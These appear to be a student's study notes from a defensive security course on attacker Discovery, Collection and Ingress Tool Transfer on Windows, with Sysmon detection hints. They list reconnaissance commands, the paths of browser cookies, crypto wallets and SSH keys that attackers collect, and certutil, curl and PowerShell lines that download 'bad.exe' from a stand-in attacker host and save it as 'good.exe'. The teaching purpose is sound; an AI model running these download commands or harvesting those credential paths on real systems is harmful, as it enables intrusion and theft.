



Discovery is different from Reconnaissance 
- Discovery is when you try to map out the network when you're already inside 

# Discovery commands 
1. Files and folders
```
type <file> - displays contetns of a text file
Get-Content <file> 
dir <folder> - lists files and subfolders
Get-ChildItem <folder>
```

2. Users and Groups 
```
whoami - shows the current account
net user - lists local users and accounts
net localgroup - list local groups
query user - shows users currently logged on and their session
Get-LocalUser - Lists local users, and if those accounts are enabled 
```

3. System and Apps 
```
tasklist /v - list running processes -v for verbose
systeminfo - displays system information
wmic product get name,version - lists installed software and versions, slow and may not show every application
Get-Service - Lists windows services and their states
```

4. Network Settings
```
ipconfig /all - network configuration
netstat -ano - shows network connections and listening ports 
a - active connections and listening ports 
n - numeric IP address and ports 
o - show the owning process ID (PID)
netsh advfirewall show allprofiles - displays windows firewall status and settings for all profiles 
```

5. Active Antivirus
```
Get-WmiObject -Namespace "root\SecurityCenter2" -Query "SELECT * FROM Antivirus Product"
```


Usually, after the attachment is launched from gaining access through Phishing/RDP/USB 
- Basic discovery commands are launched or even delete itself if a specific antivirus is installed
- And then it connects back to the attacker to run some more commands 

# Detecting Discovery 
Through command line





After the initial access, discovery will take place. Initial access might be because of RDP, phishing (Binary attachment, LNK shortcuts), or USB

After that, once access has been given look for discovery commands Sysmon 1 


# Collection 
After the criminals have explored the rooms they will begin to collect data. 
Three MITRE tactics can be mapped here: Collection, Credential Access, and Exfiltration 


Collection Targets: 
1. Personal Infos 
2. Accounts 
3. Ransomware

**Common Collection Targets**
1. Photos, Chats, Browser History (Blackmailing)
```
C:\Users\<user>\AppData\Roaming\Signal\* 
C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\History
```

2. Web banking sessions, Crypto Wallets (Steal Money)
```
C:\Users\<user>\AppData\Roaming\Bitcoin\wallet.dat 
C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Cookies
```

3. SSH Credentials, Databases (Steal Corporate Data)
```
C:\Users\<user>\.ssh\* 
C:\Program Files\Microsoft SQL Server\...\DATA\*
```


Data collection to Data Exfiltration 

# How do you detect collection? 
Threat actors might use notepad, CMD, PowerShell, and use tools within system like 7-Zip

Collection examples: 





After collection, threat actor may use 7-zip or other software to archive all files. 


Usually, data collection is performed automatically through a malware 





data stealer for Telegram sessions 


#  Ingress Tool Transfer

The act of downloading other tools to achieve other goals. Example:
1. Seatbelt - automate discovery and find common vulnerabilities
2. Mimikatz - Extract saved passwords or OS credentials 
3. Remcos RAT - fully functional RAT 
4. Ransomware binary to encrypt the system after data is stolen

**Common Ingress Tool Transfer Commands**
1. Certutil 
```
certutil.exe -urlcache -f https://blackhat.thm/bad.exe good.exe
```
2. Curl 
```
curl.exe https://blackhat.thm/bad.exe -o good.exe
```
3. PowerShell
```
powershell -c "Invoke-WebRequest -Uri 'https://blackhat.thm/bad.exe' -OutFile 'good.exe'"
```
4. Through RDP 

# How to Detect? 
1. CMD is launched (1)
2. Curl starts to download (1)
3. Connection through a http (22)
4. File downloaded (11)